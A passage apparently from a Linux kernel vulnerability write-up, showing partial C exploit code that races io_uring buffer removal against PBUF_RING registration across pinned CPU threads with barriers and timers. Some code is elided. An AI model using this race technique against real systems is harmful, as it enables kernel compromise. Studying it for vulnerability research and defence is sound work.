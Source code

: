 ``` c
        sqe[1].opcode = IORING_OP_REMOVE_BUFFERS;
        sqe[1].fd = 1; // nbufs
        sqe[1].buf_group = 0x69;
    }
    
    // Initialize metadata of the opcode ring buffer.
    struct io_rings *ring = cq;
    ring->sq.head = 0;
    ring->sq.tail = 2;

    // [...]
}
```

Inside the loop that attempts to race the condition, the thread first executes the previously added opcodes to create an empty legacy selected buffer. After synchronizing with the mmap thread using a barrier, it proceeds to execute the `IORING_REGISTER_PBUF_RING` opcode to upgrade the pbuf.

``` c
int main(int argc, char *argv[])
{
    // [...]

    // ==================== upgrade thread (cpu-0) ====================
    pin_on_cpu(0);
    while (1) {
        // [...]
        
        // Create an empty legacy selected buffer with id 0x69.
        SYSCHK(io_uring_enter(ioring_fd, 2, 0, 0, NULL));
        
        struct itimerspec new = { .it_value.tv_nsec = timeout_upgrade_thread_cpu0 };
        pthread_barrier_wait(&barrier);
        {
            timerfd_settime(tfd_for_upgrade_cpu0, TFD_TIMER_CANCEL_ON_SET, &new, NULL);
            
            // Upgrade 0x69 pbuf from a empty legacy selected buffer to a ring buffer.
            struct io_uring_buf_reg reg = {};
            reg.pad |= IOU_PBUF_RING_MMAP;
            reg.ring_entries = 1;
            reg.bgid = 0x69;

            SYSCHK(io_uring_register(ioring_fd, IORING_REGISTER_PBUF_RING, &reg, 1));
        }
        pthread_barrier_wait(&barrier);
        // [...]
    }
}
```

### 3.1.2. mmap Thread (CPU 1)
